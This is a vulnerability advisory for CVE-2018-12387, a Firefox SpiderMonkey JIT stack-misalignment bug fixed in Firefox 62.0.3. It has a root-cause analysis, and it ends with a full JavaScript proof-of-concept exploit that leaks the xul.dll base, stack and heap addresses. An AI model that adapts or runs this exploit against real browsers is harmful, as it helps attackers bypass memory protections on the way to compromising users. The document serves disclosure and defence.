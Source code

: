 **Vulnerabilities Summary**<br>
A vulnerability where the JavaScript JIT compiler inlines Array.prototype.push with multiple arguments that results in the stack pointer being off by 8 bytes after a bailout. This leaks a memory address to the calling function which can be used as part of an exploit inside the sandboxed content process.

**Vendor Response**<br>
The security vulnerability was fixed in Firefox 62.0.3 and Firefox ESR 60.2.2

**CVE**<br>
CVE-2018-12387

**Credit**<br>
Independent security researchers, Bruno Keith and Niklas Baumstark, have reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

**Affected systems**<br>
Firefox 62.0
Firefox ESR 60.2
Vulnerability Details
While fuzzing Spidermonkey (Mozilla’s JavaScript engine written in C++), we trigger a debug assertion with the following minimized sample:
```JavaScript
function f(o) {
	var a = [o];
	a.length = a[0];
	var useless = function () {}
	var sz = Array.prototype.push.call(a, 42, 43);
	(function () {
		sz;
	})(new Boolean(false));
}
for (var i = 0; i < 25000; i++) {
	f(1);
}
f(2);
```
which triggered the following assertion:<br>
```
Assertion failure: isObject() and crashes in release
build
```

**Root Cause Analysis**<br>
The assertion described above happens while running the code generated by the JIT compiler for the function f.
Let’s look at the Intermediate representation (IR) of the JIT code:
<img src="https://blogs.securiteam.com/wp-content/uploads/2018/10/just-in-time-inermediate-representation-infloleak.png" align="left top"><br>

We can see two instructions arraypusht. This can be explained looking at the code responsible for inlining calls to Array.prototype.push implemented at https://dxr.mozilla.org/mozilla-central/source/js/src/jit/MCallOptimize.cpp#812 The comments inside the function mention that a call to push with multiple argument will be broken down into multiple individual arraypush{t,v} instructions. However there is some complicated logic associated with bailouts where they wish to preserve the atomicity of the call and not resume execution in-between inlined calls to push. The assertion is triggered because the stack pointer is not correctly restored when bailing out from IonMonkey to the baseline JIT and will be off by 8 bytes and hence lead to a JS_IS_CONSTRUCTING value to be fetched from the stack instead of the Boolean class.
By understanding the failure condition, we know that we need to look for opcode handlers in BaselineCompiler.cpp that perform a syncStack(0) and then address stack values via peek(). An interesting one is BaselineCompiler::emit_JSOP_INITPROP:
```c++
// Load lhs in R0, rhs in R1.
 frame.syncStack(0);
 masm.loadValue(frame.addressOfStackValue(frame.peek(-2)), R0);
 masm.loadValue(frame.addressOfStackValue(frame.peek(-1)), R1);
 // Call IC.
 ICSetProp_Fallback::Compiler compiler(cx);
 if (!emitOpIC(compiler.getStub(&stubSpace_)))
     return false;
 // Leave the object on the stack.
 frame.pop();
```
This opcode is emitted for the following JavaScript code:

```JavaScript
function f() {
	var y = {};
	var o = {
		a: y
	};
}
dis(f);
 /* bytecode:
 00000: newobject ({}) # OBJ
 00005: setlocal 0 # OBJ
 00009: pop #
 00010: newobject ({a:(void 0)}) # OBJ
 00015: getlocal 0 # OBJ y
 00019: initprop "a" # OBJ
 00024: setlocal 1 # OBJ
 00028: pop #
 00029: retrval #
 */
```

The handler tells us how this opcode gets compiled: R0 is set to stack[top-1] = o, R1 is set to stack[top] = y, then the property assignment R0.a = R1 is performed by an inline cache. Due to the shifted stack however, in the following code, the assignment stack[top].a = stack[top+1] is performed, so a JSValue is fetched from outside the stack. Due to NaN-boxing, a native pointer value will be treated as a double in this context.
```JavaScript
var test = {
	a: 13.37
};
function f(o) {
	var a = [o];
	a.length = a[0];
	var useless = function () {}
	useless + useless;
	var sz = Array.prototype.push.call(a, 1337, 43);
	(function () {
		sz
	})();
	var o = {
		a: test
	};
}
dis(f);
for (var i = 0; i < 25000; i++) {
	f(1);
}
f(100);
print(test.a);
```

```code
/* bytecode:
...
00034: lambda function() {} # FUN
00039: setlocal 1 # FUN
00043: pop #
00044: getlocal 1 # useless
00048: getlocal 1 # useless useless
00052: add # (useless + useless)
00053: pop #
00054: getgname "Array" # Array
00059: getprop "prototype" # Array.prototype
00064: getprop "push" # Array.prototype.push
00069: dup # Array.prototype.push Array.prototype.push
00070: callprop "call" # Array.prototype.push Array.prototype.push.call
00075: swap # Array.prototype.push.call Array.prototype.push
00076: getlocal 0 # Array.prototype.push.call Array.prototype.push a
00080: uint16 1337 # Array.prototype.push.call Array.prototype.push a 1337
00083: int8 43 # Array.prototype.push.call Array.prototype.push a 1337 43
00085: funcall 3 # Array.prototype.push.call(...)
...
00104: newobject ({a:(void 0)}) # OBJ
00109: getgname "test" # OBJ test
00114: initprop "a" # OBJ
00119: setarg 0 # OBJ
00122: pop #
00123: retrval #
```
Instruction 48 is there only to place a function on the stack so that the funcall instruction 85 does not throw an exception because it expects to fetch Array.prototype.push.call from the stack, but is off by 8. This prints 2.11951350117067e-310 on our system, which is the double representation of the integer value 0x27044d565235, which is a return address. The final exploit leverages this to leak a heap address, stack address as well as the base address of xul.dll.

**Exploit**<br>
```JavaScript
<script>
var convert = new ArrayBuffer(0x100);
var u32 = new Uint32Array(convert);
var f64 = new Float64Array(convert);
var BASE = 0x100000000;
function i2f(x) {
    u32[0] = x % BASE;
    u32[1] = (x - (x % BASE)) / BASE; ///
    return f64[0];
}
function f2i(x) {
    f64[0] = x;
    return u32[0] + BASE * u32[1];
}
function hex(x) {
    return `0x${x.toString(16)}`
}
var test = {a:0x1337};
function gen(m) {
    var expr = '1+('.repeat(m) + '{a:y}' + ')'.repeat(m);
    var code = `
    f = function(o) {
        var y = test;
        var a = [o];
        a.length = a[0];
        var useless = function() { }
        useless + useless + useless + useless + useless + useless;
        var sz = Array.prototype.push.call(a, 1337, 43);
        (function() { sz; })();
        var o = ${expr};
    }
    `;
    eval(code);
}
VERSION = '62.0';
function exploit() {
    var xul = 0;
    var stack = 0;
    var heap = 0;
    var leak = [];
    for (var i = 20; i >= 0; --i) {
        gen(i);
        for (var j = 0; j < 10000; j++) {
            f(1);
        }
        f(100);
        var x = f2i(test.a);
        leak.push(x);
    }
    function xulbase(addr) {
        if (VERSION == '62.0') {
            var offsets = [
                0x92fe34,
                0x3bd4108,
            ];
        } else {
            alert('Unknown version: ' + VERSION);
            throw null;
        }
        var res = 0;
        offsets.forEach((offset) => {
            if (offset % 0x1000 == addr % 0x1000) {
                res = addr - offset;
            }
        });
        return res;
    }
    xul = xulbase(leak[1]);
    stack = leak[0];
    heap = leak[3];
    var el = document.createElement('pre');
    el.innerText = (
        "XUL.dll base: " + hex(xul) + "\n" +
        "Stack: " + hex(stack) + "\n" +
        "Heap: " + hex(heap) + "\n" +
        "\nFull leak:\n" + leak.map(hex).join("\n"))
    document.body.appendChild(el);
}
</script>
<button onclick="exploit()">Go</button>
```
